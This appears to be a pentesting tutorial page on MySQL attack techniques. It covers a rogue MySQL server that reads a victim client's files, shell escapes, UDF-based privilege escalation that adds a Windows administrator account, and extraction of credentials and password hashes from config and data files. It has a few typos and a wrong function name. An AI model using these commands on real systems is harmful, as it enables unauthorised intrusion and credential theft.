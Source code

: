 # Techniques (MySQL)

### [MySQL injection](../../pentesting-web/web-pentest-methodology/sql-injection/mysql-injection.md)

### [Reading files](../../pentesting-web/web-pentest-methodology/sql-injection/other-payloads.md#reading-files)

### [Writable files](../../pentesting-web/web-pentest-methodology/sql-injection/other-payloads.md#writing-files)

### Rogue MySQL server

There can be several reasons for doing this:

* If you can manipulate a MySQL client to connect to your own MyQSL server, you can read arbitrary files.
* If you need to create a database for a service that needs to store data, where we can create our own users and log into the web application.

{% tabs %}
{% tab title="Lab Steup" %}
The first thing is to have **MySQL** or **MariaDB** installed. We will show an example of how to do it on Arch Linux (research for other distributions):

```bash
# Install MariaDB (Arch Linux)
sudo pacman -S mariadb
mariadb-install-db --user=mysql --basedir=/usr --datadir=/var/lib/mysql
sudo systemctl start mariadb
```

Then we log into MySQL and create a rogue MySQL server:

```bash
sudo mysql
CREATE USER '<USERNAME>'@'%' IDENTIFIED BY '<PASSWORD>';
GRANT ALL PRIVILEGES ON *.* TO '<USERNAME>'@'%';
FLUSH PRIVILEGES;
CREATE DATABASE rogueDB;
# The following commands are ONLY for reading arbitrary files:
use rogueDB;
CREATE TABLE content (data TEXT);
quit
```

In addition, we will have to expose the MySQL server remotely so that the victim client can connect to us. To do this, we must modify the bind-address value in the `/etc/my.cnf.d/server.cnf` file (Arch Linux) or `/etc/mysql/mariadb.conf.d/50-server.cnf` (Debian):

{% hint style="danger" %}
By default, MySQL will listen on address **0.0.0.0.0**, which includes all network interfaces.
{% endhint %}

```bash
[mysqld]
bind-address = <INTERFACE_IP> # We can also use 0.0.0.0, which includes all interfaces.
```

Ready, now the next step is to authenticate to our SQL server from the victim client.
{% endtab %}

{% tab title="Read files" %}
After authenticating against our SQL server, from the victim client, we execute the following statements to read files:

```bash
# The word "local" is very important.
load data local infile "/etc/passwd" into table <TABLE CREATE BEFORE> FIELDS TERMINATED BY '\n';
```
{% endtab %}
{% endtabs %}

## Post Exploitation

### Config files

Location: `/etc/mysql`

* **mariadb.cnf**
* **my.cnf**

### With SQL shell

```bash
# Current Level of access:
select user();
select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='<USERNAME>';
# Access passwords:
select <COLUMN>,<COLUMN> from <TABLE>;
# Create a new user and grant him privileges:
create user test identified by 'test';
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
# Break into a shell:
\! cat /etc/passwd
\! bash
```

### Privilege Escalation via library

{% hint style="danger" %}
This attack can be done if we are root in MySQL, and if the user that is running this service is another one to which we do not have access. This user can be another normal user and even the `NT AUTHORITY\SYSTEM` in Windows or root in Linux.
{% endhint %}

As the root user in MySQL, we can write to files and load arbitrary plugins. We can use this to create a sys\_exec function that will execute any command as the user under which MySQL is running. But first, we will need to find out what architecture the operating system is on, as well as find out where the plugins are stored:

```sql
> select @@version_compile_os, @@version_compile_machine;
+----------------------+---------------------------+
| @@version_compile_os | @@version_compile_machine |
+----------------------+---------------------------+
| Win64                | x86                       |    # 64 bits
+----------------------+---------------------------+

> select @@plugin_dir;
+-----------------------------------------------------+
| @@plugin_dir                                        |
+-----------------------------------------------------+
| C:\Program Files\MySQL\MySQL Server 5.5\lib\plugin\ | # Path to put the compiled library.
+-----------------------------------------------------
```

You can find the compiled versions of these libraries in sqlmap and/or metasploit:

```bash
# For Linux:
lib_mysqludf_sys_32.so
lib_mysqludf_sys_64.so
# For Windows:
lib_mysqludf_sys_32.dll
lib_mysqludf_sys_64.dll
```

We upload the library to a directory with write permissions such as `/tmp`, we log into MySQL to execute the following statements:

{% tabs %}
{% tab title="Linux" %}
```sql
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/<SO FILE>'));
select * from npn into dumpfile '<PLUGIN PATH>/<SO FILE>';
create function sys_exec returns integer soname '<SO FILE>'; # Creamos la función llamada "sys_exec" que la usaremos para ejecutar comandos.
# Execute commands:
select sys_exec('id > /tmp/out.txt');
```
{% endtab %}

{% tab title="Windows" %}
```sql
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_files('C://temp//<DLL FILE>'));
SELECT * FROM mysql.npn INTO DUMPFILE '<PLUGIN PATH>/<DLL FILE>';
CREATE FUNCTION sys_exec RETURNS integer SONAME '<DLL FILE>';
# Execute commands:
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```
{% endtab %}
{% endtabs %}

### Extracting MySQL credentials from files

Inside `/etc/mysql/debian.cnf` you can find the plaintext password of the user **debian-sys-maint**:

```bash
cat /etc/mysql/debian.cnf
```

You can **use these credentials to log into the mysql database**.

Inside the file `/var/lib/mysql/mysql/user.MYD` you can find **all the MySQL user hashes** (which you can extract from mysql.user inside the database). You can extract them by doing:

```
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

### Enabling logging

You can enable mysql query logging inside `/etc/mysql/my.cnf` by uncommenting the following lines:

![](../../.gitbook/assets/enabling\_logging\_mysql.png)
